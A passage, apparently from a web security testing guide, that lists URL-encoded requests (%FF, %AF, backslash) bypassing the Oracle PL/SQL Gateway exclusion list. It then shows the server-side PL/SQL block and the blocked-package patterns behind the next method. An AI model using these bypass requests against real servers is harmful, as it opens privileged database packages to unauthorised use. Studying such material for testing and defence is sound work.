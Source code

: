 `http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC`
`http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC`

### Bypassing the Exclusion List - Method 5

Some versions of the PL/SQL Gateway allow the exclusion list to be bypassed with a backslash - `0x5C`:

`http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC`

### Bypassing the Exclusion List - Method 6

This is the most complex method of bypassing the exclusion list and is the most recently patched method. If we were to request the following

`http://www.example.com/pls/dad/foo.bar?xyz=123`

the application server would execute the following at the database server:

```sql
declare
 rc__ number;
 start_time__ binary_integer;
 simple_list__ owa_util.vc_arr;
 complex_list__ owa_util.vc_arr;
begin
 start_time__ := dbms_utility.get_time;
 owa.init_cgi_env(:n__,:nm__,:v__);
 htp.HTBUF_LEN := 255;
 null;
 null;
 simple_list__(1) := 'sys.%';
 simple_list__(2) := 'dbms\_%';
 simple_list__(3) := 'utl\_%';
 simple_list__(4) := 'owa\_%';
 simple_list__(5) := 'owa.%';
 simple_list__(6) := 'htp.%';
 simple_list__(7) := 'htf.%';
 if ((owa_match.match_pattern('foo.bar', simple_list__, complex_list__, true))) then
  rc__ := 2;
 else
  null;
  orasso.wpg_session.init();
  foo.bar(XYZ=>:XYZ);
  if (wpg_docload.is_file_download) then
   rc__ := 1;
   wpg_docload.get_download_file(:doc_info);
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
  else
   rc__ := 0;
   orasso.wpg_session.deinit();
   null;
   null;
   commit;
   owa.get_page(:data__,:ndata__);
  end if;
 end if;
 :rc__ := rc__;
 :db_proc_time__ := dbms_utility.get_time—start_time__;
end;
```

